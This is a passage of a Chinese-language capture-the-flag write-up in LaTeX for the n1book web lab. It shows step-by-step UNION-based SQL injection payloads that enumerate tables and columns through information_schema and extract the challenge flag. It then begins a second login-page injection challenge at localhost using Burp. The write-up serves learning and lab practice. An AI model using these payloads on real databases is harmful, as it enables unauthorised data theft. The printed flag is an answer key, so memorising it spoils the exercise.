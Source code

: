 \textbf{这里注意用网页上的在线url编码时，' '编码为加号，其他编码也和书上提到的不一样，感觉字符集不一样，于是最后手动编码，替换的敏感符号。}

\subsubsection*{UNION查询}
因为UNION后的SELECT语句必须选择和前面的语句相同的列数，因此首先确定列数：
\begin{lstlisting}
id=-1' union select 1#
id=-1' union select 1,2#
id=-1' union select 1,2,3#
\end{lstlisting}
在第三句时得到输出2,3，因此UNION后的语句需要有3列，且目标内容要放到后两列：
\begin{lstlisting}
id=-1' union select 1,group_concat(table_name),1 from information_schema.tables where table_schema=database()#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
fl4g,notes
1
\end{lstlisting}

查看fl4g表中的列：
\begin{lstlisting}
id=-1' union select 1,group_concat(column_name),1 from information_schema.columns where table_name='fl4g'#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
fllllag
1
\end{lstlisting}

最后查询fllllag列：
\begin{lstlisting}
id=-1' union select 1,group_concat(fllllag),1 from fl4g#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
n1book{union_select_is_so_cool}
1
\end{lstlisting}
获得flag。

\subsection{SQL注入-2}
题目描述：请访问 http://127.0.0.1/login.php\ http://127.0.0.1/user.php

\subsubsection{手动注入}
访问login界面是一个输入账户名和密码的界面，访问user界面提示未登录。在login界面随便试了一下发现有一个admin账户，但是试不出来密码。
打开源码有提示让在URL里面加上'?tips=1'，然后可以通过burp查看mysql报错信息。按提示打开后，在burp中拦截发送的包，发送后并没有回复包里看到报错信息，如图~\ref{fig:pic2}。
\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{1-web_junior/pic/2.jpg}
\caption{发送包和回复包}
\label{fig:pic2}
\end{figure}

